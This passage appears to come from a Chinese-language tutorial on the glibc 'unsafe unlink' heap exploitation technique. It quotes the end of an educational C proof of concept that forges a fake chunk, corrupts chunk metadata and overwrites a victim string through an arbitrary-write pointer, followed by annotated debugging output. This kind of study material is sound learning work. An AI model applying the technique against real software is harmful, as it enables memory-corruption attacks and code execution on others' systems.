```c
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}
```

## POC调试
在POC的开头我们首先申请了mchunk_size为0x431的堆块，这样申请的原因是防止在后续free的过程中进入让堆块进入到tcachebin中给自己造成一些不必要的麻烦：

```c
	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

#printf
//The global chunk0_ptr is at 0x555555756020, pointing to 0x555555757260
//The victim chunk we are going to corrupt is at 0x555555757690
//全局变量chunk0_ptr在程序的data段，这个指针指向堆区中所申请的堆块
//现在将申请到的chunk1_ptr指向的堆块当作victim，我们让他在后续的过程中出现异常
//chunk0_ptr在程序的data段，chunk1_ptr在stack上
```
